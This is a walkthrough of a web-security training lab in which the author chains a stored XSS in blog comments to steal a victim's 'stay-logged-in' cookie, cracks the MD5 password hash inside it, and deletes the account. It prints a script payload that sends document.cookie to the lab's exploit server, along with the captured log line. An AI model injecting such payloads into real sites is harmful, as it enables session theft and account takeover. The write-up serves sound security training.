Write-up by wook413

# Lab: Offline password cracking

This lab stores that user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

---

I logged in with my credentials (`wiener:peter`) on the "My account" page.



In Burp's HTTP history tab, I found the POST request I'd sent to `/login`, where the server assigned me a cookie. As shown in the Inspector panel on the right, the cookie value is actually a base64-encoded of `username:md5(password)`.



I checked the very next GET request I made and saw the same cookie value in the request header.



I ran the MD5 hash through CrackStation to confirm my theory, and it returned `peter` as expected.



The lab description also mentioned an XSS vulnerability in the comment functionality, so I decided to check that out next.



I opened a blog post, scrolled down to the comment section, and submitted a basic XSS payload to test whether it was actually vulnerable.



After clicking "Post Comment" and reloading the post, the payload fired and a popup appeared, confirming the comment functionality was indeed vulnerable to XSS.



Now that I had confirmed the XSS vulnerability, I decided to exploit it to steal another user's session cookie. I used the following payload:

```html
<script>document.location='https://exploit-0af3006304f814d78181a625014200e5.exploit-server.net/exploit'+document.cookie</script>
```



For the exploit server URL, I used my own instance from the lab, as shown below:





I posted a comment containing the payload, then checked the exploit server's `Access Log` to see if anyone had hit my `/exploit` endpoint. Sure enough, there was one request and it included the victim's cookie value:

```
/exploitsecret=8T9LaaaItRV2LsKiShSS0a0kbN0JXzJK;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```



I took the stolen cookie value to Burp's Decoder, which revealed the username and MD5-hashed password.



I cracked the hash with CrackStation again, which gave me the plaintext password.



I logged in successfully as the `carlos` user.



To fully solve the lab, I still needed to delete the user's account.



### Solved!




